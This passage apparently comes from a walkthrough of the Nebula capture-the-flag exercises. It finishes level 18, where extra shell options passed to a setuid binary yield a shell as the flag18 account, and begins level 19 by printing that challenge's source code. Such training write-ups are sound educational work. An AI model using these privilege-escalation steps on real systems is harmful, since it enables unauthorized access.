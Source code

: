 This fails because `argv` is passed to `/bin/sh` during the `execve` function
call and `/bin/sh` does not recognize the `-d` option present in our `argv`.

```c
execve("/bin/sh", argv, envp);
```

Adding `--rcfile` or `--init-file` flag pointing to a bogus file seems
sufficient to bypass this check.

```shell
level18@nebula:~$ cat commands | /home/flag18/flag18 --rcfile /dev/null -d /dev/tty
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 0
logged in successfully (without password file)
whoami
flag18
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
```

# level 19

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md